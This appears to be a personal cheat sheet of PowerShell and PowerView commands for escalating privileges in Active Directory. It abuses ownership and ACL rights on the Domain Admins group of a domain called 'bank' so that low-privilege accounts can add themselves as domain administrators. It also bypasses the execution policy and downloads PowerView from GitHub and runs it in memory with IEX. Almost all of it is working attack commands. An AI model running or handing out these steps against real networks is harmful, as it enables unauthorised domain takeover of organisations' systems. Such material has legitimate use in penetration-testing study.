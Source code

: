 #### Power view cheet
-----------------------------------------------------------------------
# Commands
>powershell -ep bypass/
>Import-Module .\PowerView.ps1\ 
>Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'
>Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"
>net group "domain admins" goodboy /add /domain

------------------------------------------------------------------------------------------------------------
# Import the AD module (requires RSAT or AD PowerShell tools)
>Import-Module ActiveDirectory

# Now try the command again
>$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

--------------------------------------------------------------------------------------------------------
>$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"
>$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity

------------------------------------------------------------------------------------------------------------
# Create the AD: drive if missing
>New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"

# Now get ACL
>$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

---------------------------------------------------------------------
# 1. Take ownership
>$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
>$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))
>$group.psbase.CommitChanges()

# 2. Add self to group
>$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")


Key Explanations:

Permission	Why Needed
Modify owner	
Modify permissions	
Write properties	


---------------------------------------------------------------------------------
with ✔ Modify permissions

>IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

>Get-Command -Module PowerView
(If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
>Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
>Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
>Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
>Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
--------------------------------------------------------------------------------------------------------

## with permission  - write all properties ✔ is  only enabled

### if powerview  fails
>$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
>$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")

---------------------------------------------------------------------------
### with permissions - ✔ modify owner is only enabled

>IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
. or downloade the script and run by import

>powershell -ep bypass
>Import-Module .\powerview.ps1

>Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

>Set-ExecutionPolicy Bypass -Scope Process -Force

# 1. Take ownership
>Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

# 2. Grant yourself GenericAll
>Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

# 3. Add to group
>Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose